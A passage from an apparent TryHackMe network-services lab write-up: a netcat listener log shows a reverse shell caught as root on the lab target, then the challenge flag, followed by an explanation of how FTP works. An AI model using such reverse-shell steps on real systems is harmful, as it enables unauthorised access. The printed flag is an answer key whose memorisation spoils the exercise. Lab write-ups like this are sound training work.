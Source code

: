 `No answer needed`

1.  Success! What is the contents of flag.txt?

```
kali@kali:~/CTFs/tryhackme/Network Services$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.221.224 56944
id
uid=0(root) gid=0(root) groups=0(root)
ls
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

`THM{y0u_g0t_th3_t3ln3t_fl4g}`

## Task 8 Understanding FTP

**What is FTP?**

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

**How does FTP work?**

A typical FTP session operates using two channels:

- a command (sometimes called the control) channel
- a data channel.

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.

**Active vs Passive**

The FTP server may support either Active or Passive connections, or both.

- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it.
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.

This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.

**More Details:**

You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: [https://www.ietf.org/rfc/rfc959.txt](https://www.ietf.org/rfc/rfc959.txt). The IETF is one of a number of standards agencies, who define and regulate internet standards.
